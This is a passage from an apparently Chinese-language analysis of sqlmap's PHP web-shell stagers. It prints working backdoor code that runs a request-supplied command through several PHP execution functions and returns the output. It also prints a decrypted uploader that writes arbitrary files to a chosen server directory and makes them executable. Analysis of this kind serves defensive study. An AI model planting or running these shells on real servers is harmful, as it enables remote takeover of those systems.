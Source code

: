 ```
	$y=proc_open($c,array(array(pipe,r),array(pipe,w),array(pipe,w)),$t);
	$w=NULL;
	while(!feof($t[1])){
		$w.=fread($t[1],512);
	}
	@proc_close($y);
}elseif(f("shell_exec")){
	$w=shell_exec($c);
}elseif(f("passthru")){
	ob_start();
	passthru($c);
	$w=ob_get_clean();
}elseif(f("popen")){
	$x=popen($c,r);
	$w=NULL;
	if(is_resource($x)){
		while(!feof($x)){$w.=fread($x,512);}
	}
	@pclose($x);
}elseif(f("exec")){
	$w=array();
	exec($c,$w);
	$w=join(chr(10),$w).chr(10);
}else{
	$w=0;
}
echo"
```
$w
```
";
?>

```

这段php代码实现了远程代码命令执行的功能，通过url请求中的cmd参数接受命令，然后通过system，proc\_open，shell\_exec等函数执行此命令，最后输出命令执行结果。


解密后的stager.php\_如下：



```
php</span
if (isset($_REQUEST["upload"])){
	$dir=$_REQUEST["uploadDir"];
	if (phpversion()<'4.1.0'){
		$file=$HTTP_POST_FILES["file"]["name"];
		@move_uploaded_file($HTTP_POST_FILES["file"]["tmp_name"],$dir."/".$file) or die();
	}else{
		$file=$_FILES["file"]["name"];
		@move_uploaded_file($_FILES["file"]["tmp_name"],$dir."/".$file) or die();
	}
	@chmod($dir."/".$file,0755);
	echo "File uploaded";
}else {
	echo "$_SERVER["PHP_SELF"]." method=POST enctype=multipart/form-data>sqlmap file uploaderto directory:  ";
}
?>

```
